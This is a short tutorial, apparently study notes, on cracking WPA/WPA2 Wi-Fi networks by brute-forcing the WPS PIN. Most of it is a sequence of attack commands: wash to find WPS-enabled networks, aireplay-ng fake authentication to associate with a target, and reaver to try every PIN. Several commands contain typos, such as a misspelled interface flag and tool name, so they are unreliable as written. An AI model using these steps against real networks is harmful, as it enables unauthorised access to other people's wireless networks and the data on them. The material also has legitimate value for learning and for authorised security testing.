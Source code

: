# Introduction to WPA/WPA2 cracking

WPA and WPA2 are other methods of data encryption which were implemented after the vulnerabilities in WEP were exposed.

They use different kind of data encryption algorithms.

WPS is a button that comes along with many of these devices, if the device is WPS enabled then we do not need to follow the traditional method of cracking a WPA/WPA2 network using a wordlist


## **Method 1: Without using a wordlist**

> The first step is to check which networks are WPS enabled. 
> To do that, run the following command in monitor mode
> - `wash --interdace wlan0`
> - Next step is to do a fakeauth attack to associate with the network
> - `airreplay-ng --fakeauth 30 -a :::::(target) -h :::::(wireless adapter) wlan0`
> - Open a different terminal and run reaver
> - `reaver --bssid ::::: --channel 1 --interface wlan0 -vvv --no-associate`
> - > reaver is a program that will bruteforce every single pin possible for wps attacks
> - `-vvv` gives us all the required information
> - `--no-associate` because we are already associrating with the network using a fakeauth and reaver's auth sometimes does not work properly